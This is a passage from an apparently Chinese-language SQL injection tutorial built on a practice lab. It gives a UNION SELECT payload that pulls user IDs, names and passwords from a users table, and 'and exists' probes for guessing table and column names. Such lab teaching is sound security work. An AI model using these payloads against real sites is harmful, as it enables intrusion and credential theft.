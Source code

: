 -----

当然也可以使用 `where` 指定字段进行查询，如果对应的值只有一条数据，那么可以不用 `limit` <br>

```sql
1' union select 1,(select concat_ws(',',user_id,first_name,password) from users where user_id='2') #
```

![images](/images/2019-03-30/sql23.png) <br>

-----

### <span id = "caibiao">9. 逐字猜解法猜表名</span>

适用于order by 不能用的地方，<br>

语法： and exists(select * from 表名)<br>

来实战测试一下，<br>

输入 `1' and exists(select * from users) #` <br>

![images](/images/2019-03-30/sql31.png) <br>

说明表是存在的，如果不存在将会报错。


-----

### <span id = "cailie">10. 逐字猜解法猜列名</span>

知道表名后，就可以猜字段了，也就是列名，<br>

语法： and exists(select 列名 from 表名)<br>
